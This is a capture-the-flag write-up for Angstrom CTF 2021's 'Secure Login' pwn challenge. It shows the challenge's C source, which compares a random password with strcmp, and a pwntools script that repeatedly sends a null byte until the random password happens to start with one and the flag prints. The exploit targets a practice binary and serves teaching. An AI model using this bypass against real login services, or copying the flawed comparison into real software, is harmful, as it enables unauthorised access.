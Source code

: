 ```yaml
---
name: Secure Login (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Secure Login (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Secure Login

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=23s "Angstrom 2021: Secure Login")

## Challenge Description

> My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

## Source

```c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```

## Solution

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './login'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warn'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Run program 1000 times (hoping for null byte)
for i in range(1000):
    io = start()
    io.recv()
    # Try to login with null byte
    io.sendline(b"\x00")
    io.recvuntil(': ')
    response = io.recv()
    # Did we get the flag?
    if(not b'Wrong!' in response):
        print(response)
    io.close()
```

Flag: `actf{if_youre_reading_this_ive_been_hacked}`
